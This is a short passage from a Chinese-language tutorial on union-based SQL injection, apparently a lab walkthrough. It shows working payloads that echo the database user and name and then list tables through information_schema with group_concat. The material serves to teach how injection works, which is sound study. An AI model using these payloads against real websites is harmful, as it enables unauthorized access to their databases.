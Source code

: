 可以看到，我们select 1,2,3 ，它回显了2，3，说明返回的是三个字段中的第二个和第三个，这对接下来爆表和爆库有用

于是接下来注入 id=0' union select 1,user(),database() --+

![](/img/union爆库.png)

爆出了用户名和使用的数据库名

然后还可以用version()函数爆出数据库版本，这样就可以针对性的进行一些注入

例如：

爆表：

```mysql
id=0' union select 1,group_concat(table_name),database() from information_schema.tables where table_schema=database() --+
```

​			information_schema是储存了所有数据库信息的库，tables储存了所有表信息的表

![](/img/union爆表.png)

